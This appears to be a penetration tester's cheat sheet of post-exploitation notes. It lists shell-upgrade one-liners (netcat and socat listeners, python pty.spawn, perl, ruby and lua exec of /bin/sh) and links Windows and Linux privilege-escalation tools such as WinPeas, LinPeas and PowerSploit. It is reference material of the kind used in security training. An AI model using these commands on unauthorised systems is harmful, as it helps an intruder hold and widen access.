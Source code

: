 Post Exploitation General Notes

# General Notes

## Spawn a tty: 

1. rlwrap nc localhost 80

2. rlwrap -r -f . nc <IP ADDRESS> <PORT>

- socat file:`tty`,raw,echo=0 tcp-listen:12345
- /bin/sh -i
- python -c 'import pty; pty.spawn("/bin/sh")'
- perl -e 'exec "/bin/sh";'
- perl: exec "/bin/sh";
- ruby: exec "/bin/sh"
- lua: os.execute('/bin/sh')

## Priviledge Escalation Scripts:

Windows:
- Windows Exploit Suggester (Next-Generation): https://github.com/bitsadmin/wesng
- Sherlock: https://github.com/rasta-mouse/Sherlock
- Powersploit: https://github.com/PowerShellMafia/PowerSploit
- WinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS

Linux:
- Linux Exploit Suggester 2: https://github.com/jondonas/linux-exploit-suggester-2
- LinEnum: https://github.com/rebootuser/LinEnum
- UnixPriv Checker: https://github.com/pentestmonkey/unix-privesc-check
- LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

## Other Resources: 

PowerSharpPack:
- https://github.com/S3cur3Th1sSh1t/PowerSharpPack 

Windows: 
- LOLBAS: https://lolbas-project.github.io/#
- Windows Privilege Escalation Fundmentals: https://www.fuzzysecurity.com/tutorials/16.html
- SharpSuite: https://github.com/FuzzySecurity/Sharp-Suite
- Watson: https://github.com/rasta-mouse/Watson
- WinPwn: https://github.com/S3cur3Th1sSh1t/WinPwn

Linux: 
- GTFOBins: https://gtfobins.github.io/
- g0tmi1k Linux Privilege Escalation: https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/